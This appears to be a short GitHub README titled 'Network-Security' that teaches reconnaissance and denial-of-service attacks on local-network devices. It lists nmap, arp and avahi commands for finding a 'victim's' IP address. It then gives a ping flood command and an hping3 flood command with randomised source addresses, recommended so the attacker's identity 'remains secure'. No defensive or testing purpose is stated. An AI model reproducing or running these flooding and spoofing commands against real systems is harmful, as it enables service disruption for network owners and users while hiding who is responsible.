 # Network-Security
## getting info about devices connected to your local network
to start an attack you should first get some basic information about your victim, like ip address.
my favorite command is the last one, but it requires the installation of avahi.
we can use the following commands to get that info:
```
nmap -sP 192.168.1.0/24
arp -a
arp
avahi-discover
avahi-browse -rat
```
## ping flooding (DOS attack)
ping flood basically floods the target pc with lots of ping requests so that it cannot access any other internet resource.
But it will also flood your pc with ping responses, so use this command only if you are sure that your pc has greater speed than the victim.
command:
```
  ping -f -s 65500 ip(or website)
```

However, there are more sophisticated tools available at our disposal like Hping3
using hping we can easily spoof our ips, so that your identity remains secure while doing the attacks
after installing hping3, we can use the following commands:

```
  hping3 -S -P -U --flood -V --rand-source website(or ip)
```

